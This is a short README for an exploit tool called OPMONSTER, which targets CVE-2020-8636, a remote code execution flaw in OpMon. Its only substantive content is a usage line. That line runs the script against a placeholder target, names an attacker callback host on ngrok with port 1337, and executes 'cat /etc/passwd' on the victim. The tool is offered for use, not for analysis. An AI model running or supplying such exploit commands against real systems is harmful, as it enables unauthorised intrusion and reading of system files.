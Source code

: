 # CVE-2020-8636 EXPLOIT
### OPMONSTER by @phor3nsic

<img src="img/opmonster.png">
  
  
 ```
 python3 opmonster.py https://vulnhost.com http://myhost.ngrok.io 1337 "cat /etc/passwd"
 ```

### Remote code execution in Opmon

[More info](https://medium.com/@ph0rensic/three-cves-on-opmon-3ca775a262f5)
